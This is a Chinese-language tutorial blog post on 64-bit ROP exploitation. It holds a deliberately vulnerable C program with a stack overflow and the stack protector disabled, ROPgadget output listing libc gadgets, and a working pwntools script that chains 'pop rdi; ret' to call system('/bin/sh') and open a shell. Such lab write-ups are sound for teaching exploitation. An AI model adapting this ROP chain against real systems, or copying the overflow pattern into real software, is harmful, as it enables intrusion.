 ```yaml
---
title: rop64
date: 2018-05-27 21:07:55
tags:
---
```

学rop之64篇
=======
出自蒸米哥的rop我这里只是理解`http://www.vuln.cn/6644`

源码：
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc6_2.27-3ubuntu1_amd64.so", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译：
```
gcc -fno-stack-protector level4.c -o level4 -ldl
```
这里只开启可NX保护。
64位和32位一个很大的区别是64位是用寄存器传参的。现在已经有system函数的地址了，接下来只需要传入参数/bin/sh就行了。
/bin/sh可以直接输入也可以搜索到。不过重要的是需要用一个pop rdi来传参。
我们需要赵的是pop rdi; ret;或者是pop rax;pop rdi;call rax;
这一类的都能满足要求。
![image0005](rop_64/image0005.png)
可以看出来pop rdi是满足不了的(并没有搜索到)。
 那就只能试一下第二个行不行了
 ![image0006](rop_64/image0006.png)
 很遗憾的发现也没有那就只能试试libc.so.6中有没有了。
 补充一下缺少dll连接库可以用database工具来查找

```
liu@liu-F117-F:~/softword/tools/libc-database-master/libc-database-master$ ./find system 0x7f2eea1d4440
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)

```
这样就找到了
```
liu@liu-F117-F:~/桌面$ ROPgadget --binary libc6_2.27-3ubuntu1_amd64.so --only "pop|ret"|grep rdi
0x00000000000221a3 : pop rdi ; pop rbp ; ret
0x000000000002155f : pop rdi ; ret
0x000000000005b4fd : pop rdi ; ret 0x38
```
```
from pwn import *
libc=ELF("libc6_2.27-3ubuntu1_amd64.so")
p=process("./level4")
elf=ELF("level4")
system_addr=int(p.recvuntil('\n'),16)
print "bin_sh_addr="+hex(system_addr)

libc_system_offset=libc.symbols["system"]
bin_sh_addr=system_addr-libc_system_offset+next(libc.search('/bin/sh'))
print "bin_sh_addr="+hex(bin_sh_addr)

libc_pr_offset=0x000000000002155f
pr_addr=system_addr-libc_system_offset+libc_pr_offset
print "pr_addr="+hex(pr_addr)
p.recvuntil("ld")
payload='\x00'*136+p64(pr_addr)+p64(bin_sh_addr)+p64(system_addr)

p.send(payload)
p.interactive()
```
payload='\x00'*136+p64(pr_addr)+p64(bin_sh_addr)+p64(system_addr)
程序中也能查到
```
liu@liu-F117-F:~/桌面$ ROPgadget --binary libc6_2.27-3ubuntu1_amd64.so --only "pop|pop|pop|call"|grep rdi
0x00000000001be293 : call qword ptr [rax + rdi*2 - 0x4c0000]
0x00000000001b017f : call qword ptr [rdi]
0x000000000002529a : call rdi
0x000000000012188b : pop rax ; pop rdi ; call rax
0x000000000012188c : pop rdi ; call rax
```
我们也可以构造payload='A'*136+p64(ppr_addr)+p63(1)+p64(bin_sh_addr)+p64(system_addr)
****
我们找到一条gadget真的不容易，那么能不能找到一条通用的gadget呢
那就看下一篇吧





 